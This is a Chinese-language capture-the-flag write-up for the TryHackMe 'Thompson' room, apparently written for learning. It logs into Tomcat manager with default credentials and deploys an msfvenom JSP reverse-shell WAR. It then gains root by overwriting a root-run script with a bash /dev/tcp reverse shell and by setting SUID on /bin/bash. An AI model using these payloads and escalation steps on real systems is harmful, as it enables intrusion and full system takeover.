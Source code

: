 ## 概述

來源: tryhackme  
題目: Thompson  
難度: easy  
網址: https://tryhackme.com/room/bsidesgtthompson

## 掃描 port

```!=
nmap -sC -sV. -v {target_ip}
```

```!=
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 掃描可用路徑

```!=
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.201.43.69:8080/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.43.69:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

## 登入 tomcat manager

發現`8080`port 是 tomcat
且`/manager`登入失敗後跳出帳號密碼資訊

```
http://target_id:8080/manager/
```

![image](https://hackmd.io/_uploads/H10hDImRel.png)
透過`tomcat:s3cret`
登入成功

## .war 取得 shell

發現可上傳`.war`檔案
嘗試取得 shell
![image](https://hackmd.io/_uploads/HJYMu8QCex.png)
先製作`shell.war`

```!=
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=local_ip LPORT=666 -f war -o shell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: shell.war
```

將`shell.war`上傳後
![image](https://hackmd.io/_uploads/ByuCOL7Ael.png)

監聽 666

```!=
nc -nvlp 666
```

造訪頁面

```!=
http://10.201.68.84:8080/shell/
```

shell get

```!=
└─$ nc -nvlp 666
listening on [any] 666 ...
connect to [10.8.68.234] from (UNKNOWN) [10.201.68.84] 36576
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

### 取得 user.txt

穩定 shell

```!=
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ubuntu:/$
```

```!=
tomcat@ubuntu:/home/jack$ cat user.txt
cat user.txt
39...bf
```

## 提權 1

發現`id.sh`好像能執行 root 權限

```!=
tomcat@ubuntu:/home/jack$ ls -l
ls -l
total 12
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Oct 19 23:41 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

而且我們也可以修改`id.sh`
嘗試取得 root shell

```!=
echo 'bash -i >& /dev/tcp/local_ip/6666 0>&1' > id.sh
```

監聽 6666

```!=
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 6666
listening on [any] 6666 ...
```

等待 1~5 分鐘系統自動觸發`id.sh`
取得 root shell

```!=
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 6666
listening on [any] 6666 ...
id
connect to [10.8.68.234] from (UNKNOWN) [10.201.68.84] 35730
bash: cannot set terminal process group (919): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```

取得`root.txt`

```!=
root@ubuntu:/home/jack# cd ~
cd ~
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
d8...3a
```

## 提權 2

確認`/bin/bash`權限

```!=
tomcat@ubuntu:/home/jack$ ls -l /bin/bash
ls -l /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

發現檔案擁有者是 root
利用`id.sh`修改`/bin/bash`權限
新增`suid`權限以取得 root 權限

```!=
tomcat@ubuntu:/home/jack$ echo 'chmod +s /bin/bash' > id.sh
echo 'chmod +s /bin/bash' > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
chmod +s /bin/bash
```

等待系統自動執行`id.sh`
確定`/bin/bash`權限有`s`

```!=
tomcat@ubuntu:/home/jack$ ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

使用 root 執行 bash

```!=
tomcat@ubuntu:/home/jack$ /bin/bash -p
/bin/bash -p
bash-4.3# id
id
uid=1001(tomcat) gid=1001(tomcat) euid=0(root) egid=0(root) groups=0(root),1001(tomcat)
```

> `/bin/bash -p`  
> -p = privileged mode（特權模式）
>
> 不加 -p：bash 會自動降低權限（安全機制）
> 加 -p：bash 保留 SUID 權限，讓你真的以 root 執行

取得`root.txt`

```!=
bash-4.3# cd /root
cd /root
bash-4.3# cat root.txt
cat root.txt
d8...3a
```

補充一下
如果沒有`s`權限`-p`沒功用

```!=
tomcat@ubuntu:/$ ls -l /bin/bash
ls -l /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
tomcat@ubuntu:/$ /bin/bash -p
/bin/bash -p
tomcat@ubuntu:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ubuntu:/$
```

## 不提權直接拿 root.txt

嘗試直接把`root.txt`複製出來

```!=
tomcat@ubuntu:/home/jack$ echo "cp /root/root.txt /home/jack/root.txt" > id.sh
```

等待系統執行`id.sh`
成功取得`root.txt`

```!=
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ ls
ls
id.sh  root.txt  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat root.txt
cat root.txt
d8...3a
```
